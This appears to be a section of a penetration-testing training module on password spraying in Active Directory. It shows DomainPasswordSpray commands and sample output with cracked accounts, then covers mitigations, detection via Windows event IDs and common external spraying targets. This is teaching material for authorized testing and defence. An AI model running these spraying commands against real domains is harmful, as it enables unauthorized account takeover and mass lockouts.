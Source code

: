 
From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out. Like how we ran the spraying attack from our Linux host, we can also supply a user list to the tool if we are on a Windows host but not authenticated to the domain. We may run into a situation where the client wants us to perform testing from a managed Windows device in their network that we can load tools onto. We may be physically on-site in their offices and wish to test from a Windows VM, or we may gain an initial foothold through some other attack, authenticate to a host in the domain and perform password spraying in an attempt to obtain credentials for an account that has more rights in the domain.

There are several options available to us with the tool. Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us. We'll supply the `Password` flag and one single password and then use the `-OutFile` flag to write our output to a file for later use.

#### Using DomainPasswordSpray.ps1

  Internal Password Spraying - from Windows

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

We could also utilize Kerbrute to perform the same user enumeration and spraying steps shown in the previous section. The tool is present in the `C:\Tools` directory if you wish to work through the same examples from the provided Windows host.

---

## Mitigations

Several steps can be taken to mitigate the risk of password spraying attacks. While no single solution will entirely prevent the attack, a defense-in-depth approach will render password spraying attacks extremely difficult.

|Technique|Description|
|---|---|
|`Multi-factor Authentication`|Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals.|
|`Restricting Access`|It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.|
|`Reducing Impact of Successful Exploitation`|A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.|
|`Password Hygiene`|Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.|

---

## Other Considerations

It is vital to ensure that your domain password lockout policy doesn’t increase the risk of denial of service attacks. If it is very restrictive and requires an administrative intervention to unlock accounts manually, a careless password spray may lock out many accounts within a short period.

---

## Detection

Some indicators of external password spraying attacks include many account lockouts in a short period, server or application logs showing many login attempts with valid or non-existent users, or many requests in a short period to a specific application or URL.

In the Domain Controller’s security log, many instances of event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) over a short period may indicate a password spraying attack. Organizations should have rules to correlate many logon failures within a set time interval to trigger an alert. A more savvy attacker may avoid SMB password spraying and instead target LDAP. Organizations should also monitor event ID [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), which may indicate an LDAP password spraying attempt. To do so, they will need to enable Kerberos logging. This [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) details research around detecting password spraying using Windows Security Event Logging.

With these mitigations finely tuned and with logging enabled, an organization will be well-positioned to detect and defend against internal and external password spraying attacks.

---

## External Password Spraying

While outside the scope of this module, password spraying is also a common way that attackers use to attempt to gain a foothold on the internet. We have been very successful with this method during penetration tests to gain access to sensitive data through email inboxes or web applications such as externally facing intranet sites. Some common targets include:

- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication

---

## Moving Deeper

Now that we have several sets of valid credentials, we can begin digging deeper into the domain by performing credentialed enumeration with various tools. We will walk through several tools that complement each other to give us the most complete and accurate picture of a domain environment. With this information, we will seek to move laterally and vertically in the domain to eventually reach the end goal of our assessment.